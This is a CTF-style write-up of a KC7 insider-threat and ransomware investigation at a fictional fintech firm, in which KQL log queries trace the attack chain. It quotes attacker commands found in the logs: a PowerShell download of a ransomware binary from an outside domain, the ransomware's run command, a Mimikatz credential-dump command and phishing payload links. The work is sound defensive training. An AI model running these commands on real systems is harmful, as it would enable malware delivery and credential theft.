





# Inside Encryptodera: An Insider Threat Scenario - CTF Writeup

> A comprehensive KC7 investigation into a multi-stage insider threat attack culminating in ransomware deployment at Encryptodera Financial Solutions.


*Data exfiltration confirmed via FTP (File Transfer Protocol) as the service used by attackers to transfer stolen data.*



*Initial infection vector identified on hostname UL8R-MACHINE as the first system to display the ransom note.*



*Ransomware impact analysis showing the ransom note appeared on 306 machines across the organization.*



*Encrypted files used the extension .umadbro;umadbro as their ransomware file marker.*



*Identification of the attack type as ransomware based on file encryption and payment demand in ransom note.*


---

## Challenge Details

| Property | Value |
|----------|-------|
| **Platform** | KC7 |
| **Author** | David Brown |
| **Category** | Insider Threat Investigation |
| **Difficulty** | Intermediate |
| **Total Points** | 3398 |
| **Skills Required** | KQL, Log Analysis, Threat Hunting, OSINT |

### Scenario

Encryptodera Financial Solutions, a company providing payment gateways, digital wallets, and blockchain solutions, has experienced a data breach involving leaked confidential documents. Following rumors of layoffs, suspicious activity from disgruntled employee Barry Smelly escalated into a full-scale ransomware attack. As an incident responder, you must investigate the complete attack chain using Kusto Query Language (KQL) to analyze security logs.

---

## Solution Walkthrough

### Phase 1: KQL 101 - Initial Reconnaissance

**Objective:** Learn basic KQL syntax while gathering intelligence about the organization.

#### Question 1-2: Employee Count & IP Lookup

```kql
Employees
| count
```
**Result:** 600 employees

```kql
Employees
| where ip_addr == "10.10.0.216"
```
**Result:** Nakia Acosta

#### Question 3-6: Email Forensics

```kql
Email
| where recipient == "nakia_acosta@encryptodera.financial.com"
| count
```
**Result:** 38 emails received

```kql
Email
| where sender contains "banking"
| distinct sender
| count
```
**Result:** 1204 distinct senders from bitbingersbanking[.]net

#### Question 7-9: Network Traffic Analysis

```kql
Employees
| where name contains "Timothy"

OutboundNetworkEvents
| where src_ip == "10.10.1.73"
| distinct url
| count
```
**Result:** 92 distinct URLs visited by Timothy Geffre

```kql
PassiveDns
| where domain contains "money"
| distinct domain
| count
```
**Result:** 15 domains

```kql
PassiveDns
| where domain == "moneypp1.com"
| distinct ip
```
**Result:** 211.152[.]115[.]93

#### Question 10-11: Advanced KQL with Variables

```kql
let karen_ips = Employees
| where name has "Karen"
| distinct ip_addr;
OutboundNetworkEvents
| where src_ip in (karen_ips)
| distinct url
| count
```
**Result:** 321 distinct URLs

```kql
let karen_user = Employees
| where name has "Karen"
| distinct username;
AuthenticationEvents
| where username in (karen_user)
| count
```
**Result:** 420 authentication events

---

### Phase 2: Offensive Odor - Barry Smelly Investigation

**Objective:** Investigate suspicious behavior from disgruntled employee Barry Smelly.

#### Question 1: Social Media Intelligence

**Barry's Tweet (Jan 15, 2024, 6:03 AM):**
> "Encryptodera is the worst!! even tho they have so much money, they are going to lay us all off 😡 #dontworkhere #imquitting"

```kql
Employees
| where name has "barry"
```

**Key Findings:**
- **Role:** StackOverflow Copy Paster
- **Email:** barry_shmelly[@]encryptodera.financial[.]com
- **IP:** 10.10.0.1
- **Hostname:** IGOY-DESKTOP
- **Username:** bashmelly

#### Question 2-5: Email Investigation

```kql
Email
| where sender == "barry_shmelly@encryptodera.financial.com"
| where timestamp >= datetime(2024-1-16)
```

**Key Findings:**
- **Jan 16 Subject:** "I'm not coming in today. I'm sick of this place. We're all getting laid off anyway."
- **Recipients:** Social Media Managers (Jarrod Rodriguez and others)
- **Jan 18 Subject to CEO:** "YOU ARE A GREEDY PIG!!!! WHAT IS WRONG WITH YOU?????"

#### Question 6-9: Suspicious Browsing History

```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.1"
| where timestamp >= datetime(2023-12-26)
```

**Suspicious URLs:**
- Dec 26: `https://www.cybersecurity-insiders.com/safe-ways-to-transfer-sensitive-files`
- Jan 15: `https://www.7-zip.org/a/7z2002-x64.exe`
- Jan 15: `https://www.wikihow.com/Use-a-USB-Flash-Drive`

#### Question 10-14: Data Exfiltration Discovery

```kql
FileCreationEvents
| where username has "bashmelly"
| where filename contains "secret"
```

**Stolen Files:**
- `SECRET_MergersAndAcquisitions_Strategy2025.docx`
- `ExecutiveSalaryNegotiations.docx`
- `Encryptodera_Proprietary_Algorithms.zip`

```kql
ProcessEvents
| where username has "bashmelly"
| where process_commandline contains "pass"
```

**7-Zip Command (Jan 16, 2024):**
```cmd
7z.exe a -t7z C:\Users\bashmelly\Documents\To_Take\Company_Secrets.7z C:\Users\bashmelly\Documents\To_Take\*.docx -p securepass123
```

**Password:** `securepass123`

```kql
ProcessEvents
| where username has "bashmelly"
| where process_commandline contains "copy"
```

**Files copied to USB drive `E:\SchmellyDrive\`:**
- DigitalWallet_SourceCode.zip
- Encryptodera_Proprietary_Algorithms.zip
- ProjectQuantumEncryptionBlueprints.pdf

---

### Phase 3: Crypto Conquest - Ransomware Attack

**Objective:** Analyze the ransomware deployment across the organization.

#### Question 1-5: Ransom Note Discovery

```kql
FileCreationEvents
| where filename has "you_got"
```

**Ransom Note Content:**
```
!!!!!!!! 🛑 ENCRYPTODERA SECURITY BREACH ALERT 🛑 !!!!!!!

Your secure files are now in our control!!! 😈😈😈

The recent erratic behavior of your own, Barry Smith, has led us here.

Contact: OopsAllYourFilesAreWithUs@snailmail.com
```

**Key Findings:**
- **Attack Type:** Ransomware
- **Affected Machines:** 306
- **First Seen:** 2024-02-17T02:34:54Z
- **Initial Victim:** UL8R-MACHINE (user: sebone)

#### Question 6-10: Ransomware Analysis

```kql
FileCreationEvents
| where hostname contains "UL8R-MACHINE"
| where filename contains "umadbro"
| count
```

**Findings:**
- **Files Encrypted:** 50 on UL8R-MACHINE
- **Extension:** `.umadbro`

```kql
ProcessEvents
| where hostname contains "UL8R-MACHINE"
| where process_commandline contains "umadbro"
```

**Ransomware Command:**
```cmd
start /b C:\ProgramData\files_go_byebye.exe -encrypt -target C:\Users\ -ext .umadbro
```

```kql
FileCreationEvents
| where hostname contains "UL8R-MACHINE"
| where filename contains "FILES_GO"
```

**Malware Details:**
- **Filename:** files_go_byebye.exe
- **First Appearance:** 2024-02-17T02:30:50Z
- **SHA256:** 6dd9c107a0aa81529ec3283fd893a254f7a838729f5da9cc
- **Dropped by:** explorer[.]exe

#### Question 11-14: Attack Vector Discovery

```kql
ProcessEvents
| where hostname == "UL8R-MACHINE"
| where timestamp between (datetime("2024-02-16") .. datetime("2024-02-18"))
```

**Commands Found:** 33 commands executed

**Base64 Encoded PowerShell (decoded via CyberChef):**
```powershell
powershell -c "Invoke-WebRequest -Uri http://notification-finance-services.com/files_go_byebye.exe -OutFile C:\ProgramData\files_go_byebye.exe"
```

**Domain:** `notification-finance-services.com`

```kql
ProcessEvents
| where process_commandline contains "gpupdate /force"
| count
```

**Result:** 306 devices (GPO-based deployment)

```kql
ProcessEvents
| where process_commandline contains "systeminfo"
| count
```

**Result:** 8 machines (discovery phase)

#### Question 15-19: Initial Compromise Investigation

```kql
ProcessEvents
| where process_commandline contains "systeminfo"
```

**Timeline:**
- **First Discovery Command:** 2024-02-02T03:32:36Z
- **Ransomware Attack:** 2024-02-17T02:34:54Z
- **Dwell Time:** 15 days

**Initial Victim:**
- **Hostname:** 41QI-LAPTOP
- **User:** rokirby (Robin Kirby)

```kql
ProcessEvents
| where process_commandline contains "nltest"
```

**Domain Controller Discovery:**
```cmd
cmd.exe /C nltest /dclist:encryptoderafinancial.com
```

**Domain:** encryptoderafinancial[.]com

```kql
FileCreationEvents
| where hostname == "41QI-LAPTOP"
| where filename contains ".xlsx.exe"
```

**Malicious File:** `Company_Financials_Q1_2024_Review.xlsx.exe`
- **SHA256:** 96a6198c6cede66f50339104b6e4
- **Downloaded:** 2024-02-01T08:50:12Z via chrome[.]exe

#### Question 20-24: Lateral Movement

```kql
FileCreationEvents
| where hostname == "41QI-LAPTOP"
| where timestamp >= datetime(2024-02-01T08:50:12.000Z)
```

**Additional Tool:** `screenconnect_client.exe`

```kql
FileCreationEvents
| where filename == "screenconnect_client.exe"
```

**Affected Machines:** 3 (6W91-MACHINE, 41QI-LAPTOP, 3RMKC-DESKTOP)

```kql
Email
| where link contains "Company_Financials_Q1_2024_Review.xlsx.ex"
```

**Phishing Email:**
- **From:** barry_shmelly[@]encryptoderafinancial[.]com (compromised account)
- **To:** Multiple Social Media Managers and Robin Kirby
- **Subject:** "Critical: Network Security Vulnerability Detected"
- **Link:** `http://update-finance-security.biz/public/public/Company_Financials_Q1_2024_Review.xlsx.exe`
- **Timestamp:** 2024-02-01T03:59:30Z

```kql
Email
| where timestamp >= datetime(2024-01-01)
| where sender == "barry_shmelly@encryptoderafinancial.com"
```

**Malicious Emails Sent:** 9 total

#### Question 25-30: Credential Theft and Privilege Escalation

```kql
AuthenticationEvents
| where timestamp >= datetime(2024-02-01)
| where username contains "bashmelly"
```

**External Login:**
- **Source IP:** 143.38[.]175[.]105
- **Target:** MAIL-SERVER01
- **Password Hash:** 228cea65b4f79bd8ba468eb99490defc

```kql
let hosts = ProcessEvents
| where process_commandline has "systeminfo"
| distinct hostname;
AuthenticationEvents
| where hostname in (hosts)
| summarize dcount(hostname) by src_ip
| order by dcount_hostname desc
```

**Lateral Movement IPs:**
- **10.10.0.138:** 8 hosts accessed (primary lateral movement)
- **10.10.1.104:** 8 hosts accessed

```kql
AuthenticationEvents
| where src_ip == "10.10.0.138"
| where result has "successful"
| count
```

**Result:** 554 successful logins

```kql
AuthenticationEvents
| where src_ip == "10.10.0.138"
| where result has "successful"
| where hostname contains "server"
| distinct hostname
```

**Critical Target:** DOMAIN_CONTROLLER_SERVER

---

### Phase 4: F in the Chat - Domain Controller Compromise

**Objective:** Determine how attackers compromised the domain controller.

#### Question 1-6: Domain Admin Credential Theft

```kql
AuthenticationEvents
| where src_ip == "10.10.0.138"
| where result has "successful"
| where hostname == "DOMAIN_CONTROLLER_SERVER"
```

**Compromised Account:** `lihenry_domain_admin`

```kql
AuthenticationEvents
| where result has "successful"
| where username contains "lihenry_domain_admin"
```

**Credential Origin:** GJ95-LAPTOP (Valerie Orozco's machine)
- **Role:** System Administrator

```kql
ProcessEvents
| where username has "bashmelly"
| where process_commandline contains "mimikatz"
```

**Credential Dumping Tool:** `totally_not_mimikatz.exe` (Mimikatz - MITRE ATT&CK S0002)
**Command:** `sekurlsa::logonpasswords`

```kql
Email
| where sender contains "barry" and recipient contains "Valerie"
```

**Phishing Attempt:**
- **To:** valerie_orozco[@]encryptoderafinancial[.]com
- **From:** barry_shmelly[@]encryptoderafinancial[.]com
- **Timestamp:** 2024-02-01T02:40:30Z
- **Subject:** "Urgent: Network Security"
- **Link:** `http://update-finance-security.biz/public/images/files/Employee_Contact_List_Updated_March_2024.docx.exe`

**Status:** Valerie did NOT click the link

#### Question 7-11: Alternate Compromise Vector

```kql
AuthenticationEvents
| where hostname contains "GJ95-LAPTOP"
| distinct username
```

**Accounts:** vaorozco, systadmi_local_admin, lihenry_domain_admin

```kql
AuthenticationEvents
| where username contains "systadmi_local_admin"
| distinct hostname
| count
```

**Scope:** 10 hosts compromised with systadmi_local_admin account

```kql
let hosts = FileCreationEvents
| where filename has "screenconnect"
| distinct hostname;
AuthenticationEvents
| where hostname in (hosts)
| where username has "systadmi"
| where result has "Successful"
| join (Employees | project ip_addr,role,email_addr,name) 
  on $left.src_ip==$right.ip_addr
| project SourceIpName=name, a="who is a", SourceIpUserRole=role, 
  b="logged into", hostname, c="using", username, d="at", timestamp
```

**Finding:** Robin Kirby (non-IT role) improperly using systadmi_local_admin credentials

```kql
Email
| where sender contains "barry" and recipient contains "robin"
```

**Robin Kirby Phishing:**
- **Timestamp:** 2024-02-01T03:59: